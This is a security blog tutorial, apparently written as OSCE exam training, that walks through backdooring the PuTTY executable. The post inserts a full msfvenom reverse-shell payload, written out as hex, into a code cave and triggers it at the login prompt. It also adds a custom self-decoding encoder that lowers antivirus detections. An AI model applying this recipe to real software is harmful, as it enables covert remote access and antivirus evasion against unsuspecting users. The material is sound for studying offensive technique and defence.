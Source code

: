:slug: backdooring-putty/
:date: 2020-06-25
:category: attacks
:subtitle: Trust no one
:tags: osce, backdoor, training, exploit
:image: cover.png
:alt: Photo by Dil on Unsplash
:description: This article will show a way of creating a backdoor that will be injected to PuTTY, a widely used software for accessing remote computers using several protocols. However, this method can be applied to any other PE32 file with minimal changes. Enjoy.
:keywords: Information, Security, Protection, Hacking, Exploit, Backdoor, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/8OECtq8rrNg

= Backdooring PuTTY

Internet is a dangerous place. It contains billions of points that can be
accessed using an ever increasingly range of devices. Endpoint protections
are improving during time, but there is always a new technique that overcomes
it.

Antivirus software is a clear example of an endpoint protection method that's
constantly improving trying to overcome its own limitations.

Most antivirus offerings use signatures to detect malware. A signature is
nothing but a sequence of bytes.

As an example, I extracted the today's
link:https://www.clamav.net/downloads[Clamav AV signatures], picked a random
entry:

image::clamav1.png[Clamav signatures]

And put it on a file called `virus`:

[source,text]
----
00000000  51 50 e8 aa f3 49 28 54  0b ed 2e fd 2a 2b 6f 21  |QP...I(T....*+o!|
00000010  10 3a 2f c2 b9 49 4f 0b  24 0d 79 59 45 da 69 87  |.:/..IO.$.yYE.i.|
00000020  20 a5 bc 44 4f bc b7 25  04 8b 77 8c 21 2c f1 6b  | ..DO..%..w.!,.k|
00000030  30 05 45 4e 54 b5 86 53  61 9c dd ee a8 99 dd f0  |0.ENT..Sa.......|
----

Check it using VirusTotal:

[source,console]
----
$ msf-virustotal -f virus | grep ClamAV
 ClamAV                true      0.102.3.0             Win.Trojan.SubSeven-2  20200624
----

And it's detected as a the expected virus.

But then I changed a single byte: The last `F0` for a `FA`:

[source,text]
----
00000000  51 50 e8 aa f3 49 28 54  0b ed 2e fd 2a 2b 6f 21  |QP...I(T....*+o!|
00000010  10 3a 2f c2 b9 49 4f 0b  24 0d 79 59 45 da 69 87  |.:/..IO.$.yYE.i.|
00000020  20 a5 bc 44 4f bc b7 25  04 8b 77 8c 21 2c f1 6b  | ..DO..%..w.!,.k|
00000030  30 05 45 4e 54 b5 86 53  61 9c dd ee a8 99 dd fa  |0.ENT..Sa.......|
----

And check it again:

[source,console]
----
$ msf-virustotal -f virus | grep ClamAV
 ClamAV                false     0.102.3.0                     20200624
----

The check failed! Antivirus based on signatures are easily fooled.

In this post, we will be able to backdoor the latest available version
of PuTTY (0.73 to the date of this writing), with a reverse shell. We will
also try to evade today's modern antivirus which are not only based on
signatures, but also on behavior.

== Strategy

The following are the steps that we will take to convert the original
`putty.exe` to its backdoored version:

. Find space to include our shellcode.
. Check the current `putty.exe` PE properties and modified them as needed.
. Add a shellcode.
. Redirect the execution flow of the application to our code.
. Restore execution flow.
. Encode shellcode to avoid antivirus detection.

== Finding space

If we are going to inject new code to a file, we must find a memory block
with the required space that we can manipulate without modifying the
normal flow of the application.

That "blank" spaces are known as *code caves* and are present on almost any
executable file. They are composed commonly of `0xCC`, `0x90` or `0x00` bytes.

There are several tools that help us finding code caves. The tool I prefer
is link:https://github.com/EgeBalci/Cminer[Cminer]. Let's run it over our
`putty.exe` file, and tell it that looks for code caves of 500 bytes or more:

[source,console]
----
$ ./Cminer /mnt/hgfs/Desktop-Host/osce/putty/putty-orig.exe 500
...
[*] Minimum cave size set to 500
[*] Extracting file header data...
/mnt/hgfs/Desktop-Host/osce/putty/putty-orig.exe
Magic			010b	(PE32)
[*] Image Base: 00400000
[*] Start Address: 0x0046fe96
[*] Parsing file sections...
[>] .reloc     (0x509000/0x51011c)
[>] .rsrc      (0x4bd000/0x508030)
[>] .gfids     (0x4bc000/0x4bc0b4)
[>] .00cfg     (0x4bb000/0x4bb004)
[>] .data      (0x4b6000/0x4b6a00)
[>] .rdata     (0x48f000/0x4b5cac)
[>] .text      (0x401000/0x48e65e)
[*] Section parsing complete.
[*] Loading PE file...
[*] File Size: 1096080
[*] Starting cave mining process...
[+] New cave detected !
[+] New cave detected !
[+] New cave detected !
[+] New cave detected !
[*] Mining finished.

[+] 4 Caves found.

[#] Cave 1
[*] Section: .rsrc
[*] Cave Size: 4027 byte.
[*] Start Address: 0x4c2660
[*] End Address: 0x4c361b
[*] File Ofset: 0xbae60

[#] Cave 2
[*] Section: .rsrc
[*] Cave Size: 4009 byte.
[*] Start Address: 0x4c15b1
[*] End Address: 0x4c255a
[*] File Ofset: 0xb9db1

[#] Cave 3
[*] Section: .rsrc
[*] Cave Size: 1737 byte.
[*] Start Address: 0x4c0e76
[*] End Address: 0x4c153f
[*] File Ofset: 0xb9676

[#] Cave 4
[*] Section: .00cfg
[*] Cave Size: 509 byte.
[*] Start Address: 0x4bb003
[*] End Address: 0x4bb200
[*] File Ofset: 0xb5403
----

We will use the last one for this example which contains 509 bytes.

== Getting executable characteristics

That code cave we chose is located at the `.00cfg` PE section.

Sections are the way the different regions of the virtual memory of a PE
file are distributed. There are several predefined sections and
each of them have specific purposes, mostly determined by the
characteristics than for the section name itself. In fact, the name
can be anything and the PE header will have pointers to them.

There is a section called `.text`  which is commonly used to store the
executable code of the file. As that section is meant to be executable,
the characteristics of that section are commonly `READ | EXEC`.

Likewise, there are other sections that hold initialized data and
global variables like `.data` and `.bss` whose contents are only meant to be
`READ | WRITE`, and not executed.

The section on which our code cave is located is `.00cfg` which is a non
standard section. We can check its current characteristics using many tools.
I will use link:https://github.com/petoolse/petools[PE Tools]:

image::petools1.gif[PE Characteristics]

image::petools2.png[PE Characteristics]

As we can see, that section has currently only permissions to be read.
However, as we need to execute code there that will self-decode, we must
enable the `WRITE` and `EXEC` characteristics:

image::petools3.gif[New PE Characteristics]

== ASLR

The `putty.exe` is a standalone executable. We may expect that the virtual
address space of an executable file at rest is the same as when
it's launched and a process instance is created. However, every time we
load `putty.exe` on a debugger, the address space changes on memory.
This is because  of something called *Address Space Layout Randomization*
or *ASLR*. This is a protection added to executable files to make it hard
for attackers to link:../vulnserver-trun/[exploit overflows] using
absolute addresses.

It can be pretty annoying during a backdooring session, but it can be disabled
while we finish and can be enabled at the end. Let's do that:

image::aslr1.gif[New PE Characteristics]

As you can see, I use link:https://ntcore.com/?page_id=388[CFF explorer] to
change the `DLL Characteristics` of the `putty.exe` file, and disabled the
`DLL can move` option which is the indicator of the presence of `ASLR`.

We must remind to be careful to use relative calculations and avoid absolute
addresses, or `ASLR` will take its toll at the end.

With that in place, we can start the backdooring process.

== A needed parentheses

Before going into inserting new bytes to our file, we must check two things
at this point: Whether the file is still working as originally expected and if
it's flagged as malicious.

The first check is easy:

image::working0.gif[Still working]

It's still working.

The result of the second check is something expected:

[source,console]
----
$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty.exe
...
[*] Analysis Report: putty.exe (14 / 74): b28ceceac0b0564110d70eac176e151e616a744c6289ff5c86f2484fa987aca5
----

This tells us that 14 out of 74 antivirus flag this new file as malicious.

In contrast, the original file was only flagged by 4:

[source,console]
----

$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty-orig.exe
...
[*] Analysis Report: putty-orig.exe (4 / 73): 736330aaa3a4683d3cc866153510763351a60062a236d22b12f4fe0f10853582
----

We must keep that values in mind, to have something to compare our final file
with.

Let's resume our process!

== Making up the code cave

Before injecting a shellcode, we need to locate the code cave on our file.
`Cminer` showed that it started at `0x4bb003` and, as we disabled `ASLR`,
we should be able to locate it at that exact address.
I will use link:https://x64dbg.com[x64dbg] a modern open-source debugger for
Windows:

image::codecave1.gif[Finding code cave]

Great, as you can see, our code cave it's a region full of `0x00` bytes.
It's a good idea to change those `0x00` to something that doesn't block
the execution flow, like `NOPs` (`0x90`).
To do that, we need to select the addresses we want to modify, then
right click on the `CPU` window, select `Binary` and finally `Fill with NOPs`.

image::fillnops1.gif[Fill NOPs]

With that, we have an empty canvas to work on.

It is also a good idea to save every progress of the backdooring in a new
separated file, so we can go back if anything's not working.
To do that, we can issue `Ctrl+P` that will show the current actual changes
we've made and save the "patches" to a new file.

image::patch1.gif[Patch1]

With that in place, we can start injecting instructions to our code cave.
The first thing we must do is save the current value of the CPU registers
and flags, so we can restore the normal flow of the application after
executing our shellcode. If we don't do that, the application will have
unexpected behavior and the backdooring will be detected!

The instructions for saving the CPU registers and flags are:

[source,x86asm]
----
pushad          ; Push general purpose registers to the stack
pushfd          ; Push EFLAGS to the stack
----

image::pushadfd1.png[Save registers and flags]

At the end of our code cave, we should have to restore that information from
the stack. We will see that later.

We are now ready to inject the shellcode.

== Generating shellcode

As you probably know, a shellcode is a piece of carefully arranged bytes
that can execute anything, commonly a shell.

In our example, we will create a shellcode that connects back from the victim
to the attacker machine and serves a reverse shell.

To to that, we will use `msvenom`:

[source,console]
----
$ msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=443 EXITFUNC=none -f hex
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hex file: 648 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf
0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631
ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0
894424245b5b61595a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b8
9001000029c454506829806b00ffd5505050504050405068ea0fdfe0ffd5976a0568c0a8001268
020001bb89e66a1056576899a57461ffd585c0740cff4e0875ec68f0b5a256ffd568636d640089
e357575731f66a125956e2fd66c744243c01018d442410c60044545056565646564e5656535668
79cc3f86ffd589e04e5646ff306808871d60ffd5bbaac5e25d68a695bd9dffd53c067c0a80fbe0
7505bb4713726f6a0053ffd5
----

Notice that I chose `LPORT=443` instead of the default `4444`. This will
hopefully help to disguise this reverse shell a little.

We can now insert that bytes on our code cave.

Here we can see the addresses on where the `pushad/pushfd` instructions were
injected

[source,x86asm]
----
004BB004 | 60                    | pushad                                |
004BB005 | 9C                    | pushfd                                |
----

To make some room for any needed encoder/decoder, I will use the address
`004BB060` as the place where the shellcode will be placed. To inject the
shellcode, we must select the output of `msfvenom` in `hex` format, then
on the debugger, select an address region large enough to fit our shellcode,
then right click, select `Binary` and then `Paste`.

image::pasteshell1.gif[Paste shell]

Great! We can now save the changes to a new file `putty-02.exe`:

image::patch2.gif[Patch2]

== Diverting execution flow

Now that we have our shellcode in place, we need to change the execution
flow of `putty.exe` to point to our code cave. You can choose at what part
of the execution you want to have the shellcode triggered. Some may want it to
happen at the very start, overwriting the entry point. In this example, we
will trigger it when the user connects to a server and the `login as:` text
appears:

image::loginas1.png[Login as]

Using our debugger, we need to find on where the `login as:` string is
issued:

image::loginas2.gif[Login as]

We had two locations and we need to know which of them is
the one we need, so we had to put breakpoints and check:

image::breakpoint1.gif[Breakpoint]

We got a hit!

As you can see, we hit just before a `call`. I mention before that
we need to use relative calculations to overcome `ASLR` limitations. That's
why we will divert the execution *after* the `call`, here:

image::breakpoint2.png[Breakpoint]

Now, copy some instructions to a text file, starting at `0042D6F7`, so we
can later restore the execution to this point:

image::copy1.gif[Copy instructions]

Having done that, we need to make a jump to the first instruction of our code
cave. That instruction is `pushad` located at `004BB004`. Let's do that:

image::jmp1.gif[Jump to code cave]

Now I will save the modifications to `patch-03.exe`.

Now remember that we need to restore the execution flow after our
shellcode. Let's do that.

== Restore execution flow

To completely restore the execution of `PuTTY`, we need to do several things:

. Get the value of `ESP` *after* the execution of the `pushad/pushfd`
instructions.
. Get the value of `ESP` *after* the shellcode is completely executed.
. Get the offset using `ESP1 - ESP2 = offset`.
. Align `ESP` with the resulting offset.
. Pop back the CPU registers and flags using `popfd/popad`.
. Restore instructions overwritten by the `jmp` to the code cave.
. Jump to the next instruction after that jump.

=== Get ESP before shellcode

We can do that easily by putting a breakpoint after the `pushad/pushfd` calls
and taking note of `ESP`:

image::espbefore.gif[ESP before]

The ESP value is `0019FE30`.

=== Get ESP after shellcode

This can be obtained after the shellcode is executed. Remember to open a
listener in the attacker machine:

image::espafter.gif[ESP after]

Great! We got the shell and the `ESP` value is `0019FC30`. However, the
breakpoint was reached only *after* exiting the shell. We will need to
modify the shellcode later.

=== Get the offset

This one is easy: `0019FE30 - 0019FC30 = 0x200`.

=== Align ESP + Restore registers and flags

Now we need to point `ESP` to the value after `pushad/pushfd`. We also
need to restore the registers and flags. This can be done easily with:

[source,x86asm]
----
add esp,0x200
popfd
popad
----

We can now add that to our file:

image::restore1.png[Restore]

=== Restore instructions + Jump to normal flow

If you remember, the original point from where we diverted the execution was:

[source,x86asm]
----
0042D6F7 | 83C4 04               | add esp,4                             |
0042D6FA | 31C9                  | xor ecx,ecx                           |
0042D6FC | 41                    | inc ecx                               |
0042D6FD | 51                    | push ecx                              |
0042D6FE | 50                    | push eax                              | eax:"SSH login name"
0042D6FF | FF73 78               | push dword ptr ds:[ebx+78]            |
----

And the resulting instructions when we added the jump to our code cave were:

[source,x86asm]
----
0042D6F7 | E9 08D90800           | jmp putty-03.4BB004                   |
0042D6FC | 41                    | inc ecx                               |
0042D6FD | 51                    | push ecx                              |
0042D6FE | 50                    | push eax                              |
0042D6FF | FF73 78               | push dword ptr ds:[ebx+78]            |
----

That means that we overwrote two instructions: `add esp,4` and `xor ecx,ecx`
and they need to be restored. We also see that the next instruction in
the normal execution flow is located at `0042D6FC`. So, to finish our
restoration, we need to add this:

[source,x86asm]
----
add esp,0x4
xor ecx,ecx
jmp 0x0042D6FC
----

image::restore2.png[Restore]

We can now save the changes to a new file `patch-04.exe`:

image::patchrestore1.gif[Patch restore]

At this point, we should be able to launch `PuTTY`, get a shell and resume
normal execution:

image::working1.gif[Working]

However, as you can see, the execution is only resumed when the shell exits.

== Patching shellcode

That behavior is caused by the way the reverse shell was implemented on
`Metasploit`. It uses a call to `WaitForSingleObject` that instructs the
parent process to wait infinitely until the shell process is done.
This makes the shellcode more reliable, but for our purpose, we need a
different behavior.

The `WaitForSingleObject` function signature is:

.Taken from https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject
[source,cpp]
----
DWORD WaitForSingleObject(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
----

Our reverse shell sets the value of `dwMilliseconds` parameter to `-1`,
which makes it to way forever for the process to finish. That value is set at
this position on the shellcode:

[source,x86asm]
----
004BB179 | 4E                    | dec esi                               |
----

We just need to change it to a `NOP` and we should be ready:

image::patching1.gif[Patching shellcode]

Let's run our saved `putty-05.exe`:

image::working2.gif[Patching shellcode]

Mission accomplished! We've got now a fully functional, yet backdoored
`PuTTY`.

== Encoding our shellcode

Let's see how we are doing with antivirus detection:

[source,console]
----
$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty-05.exe
[*] Analysis Report: putty-05.exe (27 / 71): 919677186373a27cd4de5a2f21fa854784c330abf67bc4abbc893a0a594d1d28
----

Not so great. To improve that metric, we will need to encode our shellcode
using a self-made encoder.

A common method is to use the `XOR` instruction on every byte, but an
average antivirus nowadays will be able to revert it easily. We are
going to try something more.

The mutations we perform over the code must be reversible, so for the sake
of this example I will use this encoder strategy:

. `XOR` byte with key `0xD`.
. Add `0x2` to byte.
. Bit-wise negate byte.
. Rotate left 8 bits.

.encoder
[source,x86asm]
----
xor byte [eax],0xd
add byte [eax],0x2
not byte [eax]
rol byte [eax],0x8
----

And the decoder should be the reverse instructions, in reverse order:

. Rotate right 8 bits.
. Bit-wise negate byte.
. Sub `0x2` to byte.
. `XOR` byte with key `0xD`.

.decoder
[source,x86asm]
----
ror byte [eax],0x8
not byte [eax]
sub byte [eax],0x2
xor byte [eax],0xd
----

The encoder should be used only once, to mutate the file. Then, when the
encoded shellcode is in place, the decoder should be finally inserted so it
can self-decode on memory every time it's launched.

The full stub we are going to insert is:

[source,x86asm]
----
mov eax,<address where shellcode starts>    ; Make EAX a pointer to our shellcode
loop:                                       ; Loop starts here
<encoder or decoder>                        ; The encoder or decoder instructions
inc eax                                     ; Points EAX to the next byte of the shellcode
cmp eax,<address where shellcode ends>      ; Compare if EAX is pointing to the end of the shellcode
jne loop                                    ; If not, jump to the loop until we reach the end
----

=== Encoding

Let's encode the shellcode first:

image::encoder1.png[Encoder]

Save that changes to a file called `putty-06.exe`.

Now, we can watch the process of encoding on real time:

image::encoded1.gif[Encoder]

Wonderful. Now, select those modified bytes, then right click, then
`Binary`, then `Copy`. Restart the debugging session with `Ctrl+F2` and
go to that address region again and hit `Shift+V` to binary paste.

We are now ready to patch the file to a new one called `putty-07.exe`.

=== Decoding

Now, all that's left is to replace the encoder with the decoder on our
`putty-07.exe` file:

image::decoder1.png[Decoder]

And save the patches to a file called `putty-final.exe`.

If everything comes as expected, `putty-final.exe` will run, then decode
itself in memory, send us a reverse shell and resume normal execution.

image::success.gif[PuTTY working]

Yes! Scary, huh?

== Antivirus detection

Now, let's see how our manually encoded `PuTTY` is tagged in VirusTotal:

[source,console]
----
$ msf-virustotal -f /mnt/hgfs/Desktop-Host/osce/putty/putty-final.exe
....
[*] Analysis Report: putty-final.exe (10 / 72):
6b96ec9906e87bbed37570a83f9c1fcad0dd7a03ff705b1c23dc4f7f425c53ab
----

Awesome! We were able to lower the ratio of antivirus tagging from 27 to 10!

== Conclusion

Internet is full of dangers. We hope this article will show you the risks
of running software obtained from untrusted sources.

